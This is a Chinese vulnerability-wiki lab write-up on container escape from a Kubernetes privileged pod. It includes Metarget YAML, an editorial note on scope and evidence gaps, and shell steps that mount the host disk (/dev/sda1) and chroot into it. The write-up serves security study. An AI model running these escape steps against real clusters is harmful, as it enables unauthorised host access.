


# Kubernetes privileged 特权容器导致容器逃逸

> 版本字段校订（2026-10-04）：Docker 18.09.3 是原文实验运行时版本，不能作为此配置或权限问题的影响范围。`version` 与 `affected_versions` 改为明确待核，旧值保存在 `previous_*`；实验组件清单及全部 YAML、命令与结果原样保留。后文相关元数据误填说明描述校订前状态。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：容器已以privileged启动且有设备/挂载权限，OS根磁盘可访问；实际宿主边界依minikube驱动
- 证据范围：提供明确YAML和磁盘路径根据环境调整，属于配置风险；host filesystem访问不自动等于突破所有namespace

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version为实验Docker18.09.3而非漏洞范围
- 文用minikube但结果hostname ubuntu，需明确逃到VM节点或物理宿主
- 开头官方Markdown链接嵌套破损
- 删除整个metarget namespace可能影响其它实验资源，清理范围需注明

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

最初，容器特权模式的出现是为了帮助开发者实现 Docker-in-Docker 特性。然而，在特权模式下运行不完全受控容器将给宿主机带来极大安全威胁。

[官方文档](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities) 对特权模式的描述如下：

> 当操作者执行 `docker run --privileged` 时，Docker 将允许容器访问宿主机上的所有设备，同时修改 AppArmor 或 SELinux 的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

参考链接：

- https://www.docker.com/blog/docker-can-now-run-within-docker/
- https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f privileged-container.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `privileged-container` 的包含特权容器的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
privileged-container   1/1     Running   0          5s
```




## 漏洞复现

特权模式下容器能够看到宿主机硬盘设备，可以通过挂载宿主机硬盘的方式实现文件系统层面逃逸。

示例如下（硬盘路径需要根据实际环境确定，这里为 `/dev/sda1`）：

```
kubectl exec -n metarget -it privileged-container -- /bin/bash
-----
root@privileged-container:/# fdisk -l | grep /dev/sda1
/dev/sda1  *     2048 209713151 209711104  100G 83 Linux
root@privileged-container:/# mkdir /host
root@privileged-container:/# mount /dev/sda1 /host
root@privileged-container:/# chroot /host
# cat /etc/hostname
ubuntu
```




## 环境复原

```
kubectl delete -f privileged-container.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[privileged-container.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/privileged-container.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: privileged-container
  namespace: metarget
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
